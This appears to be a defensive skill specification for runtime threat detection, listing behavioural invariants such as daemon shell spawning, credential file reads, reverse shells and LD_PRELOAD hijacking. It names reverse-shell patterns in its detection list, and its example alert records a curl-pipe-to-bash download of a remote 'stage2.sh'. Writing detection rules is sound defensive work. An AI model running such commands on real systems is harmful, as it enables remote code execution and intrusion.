

# Runtime Anomaly Detection Skill

## Purpose

Detect adversarial runtime anomalies at machine speed by evaluating live
telemetry against declarative behavioral security invariants. Identifies
threat actor behaviors (shell execution from web daemons, sensitive credential
reading, reverse shell establishment, namespace escapes) without relying on
fragile file-based signatures.

Adapted from architectural patterns in Falco (CNCF, Apache-2.0 rules) and
Cilium Tetragon eBPF runtime observability, integrated directly with NOARTEX
`adapter.observer.tetragon.stream` and M4 Intelligence Correlator.

## Detection Invariant Categories

### I1 -- Unauthorized Process Spawning
Detects process execution trees that violate expected operational profiles:
- Web service, database, or worker daemon spawning an interactive shell
  (`sh`, `bash`, `dash`, `zsh`, `powershell`).
- Utility processes executing scripting interpreters (`python`, `perl`, `ruby`, `node`)
  from world-writable temporary directories (`/tmp`, `/var/tmp`, `/dev/shm`).
- Execution of binaries with non-standard parent lineages (e.g., cron or systemd
  spawning unmanaged compiler binaries).

### I2 -- Sensitive File System Access
Detects unauthorized reads, writes, or permission alterations against protected
system resources via `openat2`, `vfs_read`, and `chmod`:
- Reading credential databases (`/etc/shadow`, `/etc/security/opasswd`).
- Accessing SSH host or user private keys (`/etc/ssh/ssh_host_*`, `~/.ssh/id_*`).
- Modifying system authentication configuration (`/etc/pam.d/*`, `/etc/sudoers`).
- Modifying cron directories or systemd service unit directories for persistence.

### I3 -- Suspicious Socket & Network Connections
Detects anomalous outbound connections and unexpected listening sockets via
`tcp_connect`, `tcp_sendmsg`, and `bind`:
- Outbound network connections initiated directly by command interpreters
  (`nc`, `ncat`, `bash -i >& /dev/tcp/...`, `python -c "import socket..."`).
- Inbound listening sockets bound on non-standard high ports by unprivileged users.
- Network connection attempts targeting cloud metadata endpoints
  (`169.254.169.254`) or loopback administrative ports.

### I4 -- Defense Evasion & Privilege Escalation
Detects runtime tampering and elevation attempts:
- Process namespace transitions (`setns`, `unshare`) without container runtime context.
- Execution of binaries with setuid/setgid bits newly set.
- Dynamic library hijacking via unexpected `LD_PRELOAD` or `/etc/ld.so.preload` modifications.
- Disabling or tampering with audit services or security daemons.

## Evaluation Pipeline



## Output Format

```yaml
runtime_anomaly_alert:
  alert_id: "rad-YYYYMMDD-XXXX"
  timestamp: "2026-11-20T04:25:12.890Z"
  invariant: "I1_UNAUTHORIZED_SHELL_SPAWN"
  severity: "CRITICAL"
  target:
    pid: 31204
    ppid: 1102
    comm: "sh"
    exe: "/bin/dash"
    parent_comm: "node"
    parent_exe: "/usr/bin/node"
    user: "www-data"
  event_details:
    syscall: "execve"
    args: ["/bin/sh", "-c", "curl -s http://198.51.100.23/stage2.sh | bash"]
  context:
    container_id: "none"
    namespace: "host"
    cwd: "/var/www/html"
  mitre_technique: "T1059.004"
  recommended_verdict: "CONFIRMED"
```

## NOARTEX Integration

```bash
noartex task submit \
  --module M4 \
  --skill runtime-anomaly-detection \
  --params '{"watch_invariants": ["I1", "I2", "I3"], "stream_source": "tetragon"}' \
  --policy R2
```
